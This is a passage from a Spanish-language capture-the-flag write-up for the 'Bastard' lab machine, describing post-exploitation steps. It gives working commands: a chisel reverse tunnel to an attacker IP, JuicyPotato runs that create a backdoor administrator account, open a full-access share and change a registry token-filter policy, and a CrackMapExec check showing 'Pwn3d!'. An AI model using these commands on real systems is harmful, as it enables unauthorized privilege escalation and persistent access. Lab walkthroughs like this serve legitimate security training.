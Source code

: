 ```bash
sudo ./chisel server --reverse -p 1234
```

Ejecutamos `chisel` en la máquina víctima, generando un `port forwarding` del puerto `445`

```bash
chisel.exe client 10.10.14.2:1234 R:445:127.0.0.1:445
```

Ganamos acceso nuevamente y con `JuicyPotato` creamos un usuario en la máquina víctima

```bash
jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user bastiant1c bast1ant1c! /add" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Verificamos la creación del usuario

```bash
net user
User accounts for \\

-------------------------------------------------------------------------------
Administrator            bastiant1c               dimitris                 
Guest
```

Agregamos el usuario al grupo `Administrators`

```bash
jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators bastiant1c /add" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Creamos el recurso compartido `attacker` con permisos de administración

```bash
jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker=C:\Windows\Temp /GRANT:Administrators,FULL" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Modificamos el registro para obtener permisos especiales y poder ganar acceso

```bash
jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Ejecutamos `cme` para verificar si tenemos un `Pwn3d!` en los resultados 

```bash
cme smb 127.0.0.1 -u 'bastiant1c' -p 'bast1ant1c!'
```

```bash
#OUTPUT
SMB         127.0.0.1       445    BASTARD          [*] Windows Server 2008 R2 Datacenter 7600 (name:BASTARD) (domain:Bastard) (signing:False) (SMBv1:True)
SMB         127.0.0.1       445    BASTARD          [+] Bastard\bastiant1c:bast1ant1c! (Pwn3d!)
```
